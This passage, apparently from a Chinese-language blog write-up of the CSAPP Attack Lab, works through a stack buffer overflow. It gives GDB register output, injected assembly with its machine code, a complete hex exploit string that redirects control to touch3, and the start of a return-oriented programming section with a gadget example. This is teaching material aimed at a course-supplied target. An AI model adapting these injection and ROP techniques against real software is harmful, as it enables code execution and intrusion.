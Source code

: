 ```asm
r11            0x7ffff7b74720	140737349371680
r12            0x2	2
r13            0x0	0
r14            0x0	0
r15            0x0	0
rip            0x4017ac	0x4017ac <getbuf+4>
eflags         0x216	[ PF AF IF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
(gdb) 
```
由此可以指 rsp 的地址是 `0x5561dc78`, 存入字符串的地址就是 0x5561dca8。构造字符串转换为机器码：
```
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
// 机器码：
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi // 存入 cookie 的地址
   7:   68 fa 18 40 00          pushq  $0x4018fa // touch3 的地址
   c:   c3                      retq
```
从 rsp + 0x28 + 0x8 的地址就按照顺序贴入 cookie 转换为 ASCII 码的值。这就可以构造字符串：
```
48 c7 c7 a8 dc 61 55 68 fa 18
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 35 39
62 39 39 37 66 61 00
```
结果：
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-level3-success.png)
# 第二部分：
第二部分引入了：
- NX（不执行位），栈的数据可以被标记为可读和科写但是不执行。
- 使用地址空间随机化的计数（ASLR），每次运行程序的不同部分，包括程序代码、库代码、栈、全局变量和堆数据都会改变。

利用 ROP，只需要修改栈顶的返回地址并利用已经存在的机器指令组合成的针对性的机器语言指令序列（gadgets）就可以达到控制程序的流程。例如：
```c
void setval_210(unsigned *p){
    *p = 3347663060U;
}
// 得到的机器代码：
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```
实验文档给出了汇编的机器指令说明：
- nop。注意普通的 nop 编码位 0x90：
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-nop-encodings.png)
- movl（传送双字）。
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-movl-encodings.png)
- movq。
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-movq-encodings.png)